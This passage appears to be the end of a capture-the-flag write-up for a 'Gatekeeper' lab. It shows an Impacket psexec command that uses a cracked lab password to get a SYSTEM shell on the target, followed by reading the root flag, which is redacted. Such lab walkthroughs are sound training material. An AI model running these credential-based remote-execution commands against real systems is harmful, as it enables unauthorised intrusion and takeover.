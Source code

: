 ```text
kali@kali:~/thm/gatekeeper$ python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.245.39 cmd.exe
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.245.39.....
[*] Found writable share ADMIN$
[*] Uploading file VQGNrSNN.exe
[*] Opening SVCManager on 10.10.245.39.....
[*] Creating service gWHz on 10.10.245.39.....
[*] Starting service gWHz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

## Root Flag

It worked! Who are we:

```text
c:\Users\mayor\Desktop>whoami
nt authority\system
```

 Made it. Let's grab the root flag:

```text
C:\Windows\system32>cd c:\users\mayor\desktop
c:\Users\mayor\Desktop>dir

 Directory of c:\Users\mayor\Desktop
05/14/2020  09:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,283,815,936 bytes free

c:\Users\mayor\Desktop>type root.txt.txt
<<HIDDEN>>
```

All done. See you next time.
